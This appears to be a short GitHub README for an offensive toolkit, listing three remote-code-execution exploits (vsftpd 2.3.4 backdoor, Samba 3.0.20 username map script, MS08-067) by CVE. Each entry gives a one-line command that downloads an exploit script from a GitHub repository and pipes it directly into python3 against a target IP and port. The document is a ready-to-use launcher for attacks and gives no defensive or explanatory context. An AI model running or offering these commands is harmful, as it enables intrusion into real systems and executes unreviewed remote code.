 this is lazy

vsftpd-2.3.4.py | vsftpd 2.3.4 - Backdoor Command Execution | CVE-2011-2523
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/grey/main/rce/vsftpd-2.3.4.py | python3 - <IP> <Port>
```
samba-3.0.20.py | Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution | CVE-2007-2447
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/grey/main/rce/samba-3.0.20.py | python3 - <IP> <NIC>
```
ms08-067.py | Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution | CVE-2008-4250 | MS08-067
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/grey/main/rce/ms08-067.py | python3 - -h
```